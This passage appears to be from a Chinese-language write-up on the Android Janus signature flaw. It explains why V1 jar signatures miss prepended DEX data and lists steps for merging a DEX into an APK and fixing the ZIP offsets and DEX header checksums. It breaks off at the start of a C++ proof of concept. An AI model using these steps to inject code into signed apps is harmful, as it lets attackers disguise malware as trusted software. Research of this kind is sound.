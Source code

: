 V1签名方案（jar签名）不会检查ZIP文件的所有内容；Android 7.0引入V2签名方案（APK完整签名）会对整个ZIP文件进行签名检查。

采用V1签名方案，DEX的插入过程不会改变Android检查完整性的字节，而且ZIP文件的签名也不会改变，能够在ART虚拟机上能够正常安装运行。

![签名方案](imgs/签名方案.png)

## 漏洞利用
1. 将dex和apk合并成一个out文件
2. 修复out文件中apk部分EocdRecord的cd_start_offset（第一个CentralDirectoryRecord的偏移）和CentralDirectoryRecord中的local_file_header_offset（文件entry偏移）
3. 修复out文件中dex部分dex头的fileSize、signature（sha-1）以及checksum（alder32）

### poc
``` c++
#include <zlib.h>
#include "include/ZipArchive.h"
#include "include/DexFile.h"
#include "include/sha1.h"

#define offsetof(s,m) (size_t)&(((s *)0)->m)

struct FileDescriptor {
    FileDescriptor(const char *path, int flags){
        mPath = path;
        mFile = open64(path, flags);
    }
    FileDescriptor(const char *path, int flags, mode_t mode){
        mPath = path;
        mFile = open64(path, flags, mode);
    }
    ~FileDescriptor() {
        if (mFile > 0) close(mFile);
    }
    operator int& () {
        return mFile;
    }
    off64_t     mSize; // 文件大小
    int         mFile; // 文件描述符
    const char *mPath; //文件路径
};

// 合并文件
int32_t MergeFile(FileDescriptor *out, FileDescriptor *apk, FileDescriptor *dex) {
```
